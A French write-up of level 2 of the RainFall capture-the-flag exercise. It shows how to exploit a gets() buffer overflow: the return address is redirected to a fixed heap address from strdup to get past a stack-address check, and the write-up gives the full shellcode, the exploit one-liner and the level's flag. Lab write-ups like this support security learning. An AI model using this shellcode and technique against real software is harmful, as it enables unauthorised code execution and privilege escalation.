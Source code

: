 # level2


## description
- Il y a un exécutable **level1**.Lorsqu'on l'exécute, il prends des caractères sur **stdin** puis l'affiche.

## Résolution

Avec gdb disas, il y a les lignes suivantes qui nous intéresse.

       0x080484ed <+25>:    call   0x80483c0 <gets@plt>
       0x080484fb <+39>:    and    eax,0xb0000000
       0x08048500 <+44>:    cmp    eax,0xb0000000


On voit qu'il y a l'utilisation de **gets**. en utilisant le même **buffer overflow** que sur l'exercice 1 pour modifier l'adresse de retour.
En testant l'overflow, on voit que la taille du buffer est **80**.

Cependant il y a une comparaison entre l'adresse de retour  et 0xb0000000 pour être sur que l'adresse n'est pas une adresse de la stack

On peut voir que le buffer est copié grâce a la fonction **strdup**.
```c

      0x08048538 <+100>:   call   0x80483e0 <strdup@plt>

```
Strdup utilise malloc qui stocke sur la heap.
On peut voir que le malloc retourne toujours l'adresse **0x0804a008**  :
```

    ltrace ./level2
    __libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
    fflush(0xb7fd1a20)                               = 0
    gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)    = 0xbffff6fc
    puts("")                                         = 1
    strdup("")                                       = 0x0804a008
    +++ exited (status 8) +++
    level2@RainFall:~$

```

le shellcode que l'on va utilise viens de ce [site](http://shell-storm.org/shellcode/files/shellcode-575.php).

    \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

La taille du buffer etait de 80 et que notre shell fait 21 bytes, on va ajouter 59 bytes de padding apres notre shellcode puis on finit avec l'adresse de retour.

    python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit &&  cat /tmp/exploit - | ./level2
le flag du niveau.

    cat /home/user/level3/.pass
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
